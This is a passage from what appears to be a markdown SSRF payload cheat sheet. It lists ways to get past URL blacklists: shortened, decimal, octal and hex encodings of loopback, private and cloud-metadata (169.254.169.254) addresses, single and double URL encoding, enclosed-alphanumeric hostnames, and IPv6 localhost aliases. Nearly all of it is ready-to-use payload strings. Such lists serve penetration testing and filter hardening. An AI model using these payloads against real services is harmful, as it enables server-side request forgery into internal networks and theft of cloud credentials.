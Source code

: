 You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass Using an Encoded IP Address

* Decimal IP location

    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* Octal IP: Implementations differ on how to handle octal format of IPv4.

    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```
 * Hex IP
    ```powershell
    http://0x7f000001 = http://127.0.0.1
    http://0xc0a80101 = http://192.168.1.1
    http://0xa9fea9fe = http://169.254.169.254
    ```

### Bypass Using Different Encoding

* URL encoding: Single or double encode a specific URL to bypass blacklist

    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* Enclosed alphanumeric: `①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿`

    ```powershell
    http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
    ```

* Unicode encoding: In some languages (.NET, Python 3) regex supports unicode by default. `\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.

### Bypassing via ipv6 hostname

* in Linux /etc/hosts contain this line `::1   localhost ip6-localhost ip6-loopback` but work only if http server running in ipv6
   ```powershell
   http://ip6-localhost = ::1
   http://ip6-loopback = ::1
   ```
